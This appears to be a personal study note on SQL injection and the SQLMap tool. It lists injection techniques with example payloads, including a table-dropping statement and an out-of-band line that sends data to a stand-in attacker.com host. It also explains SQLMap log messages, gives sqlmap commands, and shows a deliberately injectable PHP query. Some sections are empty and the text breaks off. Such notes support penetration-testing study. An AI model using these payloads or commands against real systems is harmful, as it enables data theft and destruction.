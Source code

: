B – Boolean-based blind

    Example: AND 1=1
    Infers data by comparing true vs false server responses.
    Retrieves 1 byte per request.
    Most common SQLi type in web apps.

E – Error-based

    Example: AND GTID_SUBSET(@@version,0)
    Uses database error messages to extract data.
    Faster than blind types; depends on error visibility.
    Supported by: MySQL, MSSQL, PostgreSQL, Oracle, etc.

U – UNION query-based

    Example: UNION ALL SELECT 1,@@version,3
    Adds attacker’s query results to the original output.
    Fastest method when output is reflected in the page.
    Ideal for dumping whole tables in a single request.

S – Stacked queries

    Example: ; DROP TABLE users
    Executes multiple SQL statements in one go.
    Useful for non-SELECT operations like INSERT or DELETE.
    Supported by MSSQL, PostgreSQL, etc.
    Enables advanced actions like OS command execution.

T – Time-based blind

    Example: AND 1=IF(2>1,SLEEP(5),0)
    Uses response delays to infer true/false conditions.
    Slower than Boolean-based.
    Works when no visible output is available.

Q – Inline queries

    Example: SELECT (SELECT @@version) FROM ...
    Embeds a subquery inside a main query.
    Rare, requires specific query structure.
    Still supported by SQLMap.

Out-of-band

    Example: LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
    Data is exfiltrated through external channels (e.g., DNS).
    Used when other SQLi types are blocked or too slow.
    Requires the server to make outbound connections.
    SQLMap supports this via DNS-based exfiltration.


# SQLMap Output Description

## Log Messages Description

### Log Message:
    "target URL content is stable"
    Server response doesn't change on repeated requests, helping SQLi detection.

### Log Message:
    "GET parameter 'id' appears to be dynamic"
    Parameter affects response – a good sign for possible SQL injection.

### Log Message:
    "heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')"
    Basic test shows potential SQLi; DBMS might be MySQL.

### Log Message:
    "heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks"
    Detected possible XSS vulnerability during heuristic check.

### Log Message:
    "it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]"
    SQLMap found MySQL; suggests skipping payloads for other DBMSes.

### Log Message:
    "for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]"
    Offers to run extended MySQL-specific SQLi tests.

### Log Message:
    "reflective value(s) found and filtering out"
    Payload reflections detected in response; SQLMap filters them automatically.

### Log Message:
    "GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string=\"luther\")"
    Likely Boolean-based blind SQLi; uses string match to distinguish TRUE/FALSE.

### Log Message:
    "time-based comparison requires a larger statistical model, please wait........... (done)"
    Builds response-time model to detect time-based SQLi.

### Log Message:
    "automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found"
    Increases UNION SQLi testing due to signs of other SQLi types.

### Log Message:
    "'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test"
    ORDER BY is usable; helps find correct column count faster for UNION-based SQLi.

### Log Message:
    "GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]"
    SQLi confirmed on parameter; optionally test other parameters.

### Log Message:
    "sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:"
    SQLi injection points found and confirmed; details follow.

### Log Message:
    "fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'"
    Results saved to local folder for analysis and reuse.

# Running SQLMap on an HTTP Request

## Curl Commands
Copy as cURL feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools. After that, we just have to change curl for sqlmap in terminal

```
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

## GET/POST Requests

In the most common scenario, GET parameters are provided with the usage of option -u/--url. As for testing POST data, the --data

## Full HTTP Requests

#### Tip
```
similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (*), such as '/?id=*'.
```

## Custom SQLMap Requests
SQLMap also supports JSON and XML formatted

-------------
-------------
```
```

# Handling SQLMap Errors 

--parse-errors
-t - stores whole traffic to file
-v (number) - verbose
--proxy - use proxy

# Attack Tuning

Every payload sent to the target consists of:
* vector (UNION ALL SELECT 1,2,version()) - central part of payload
* boundaries (<vector>-- ) - prefix and suffix formations, used to proper injection

## Prefix / Suffix
```
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
This will result in an enclosure of all vector values between the static prefix %')) and the suffix -- -.

```
Code: php

$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);

```

```
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

## Level/Risk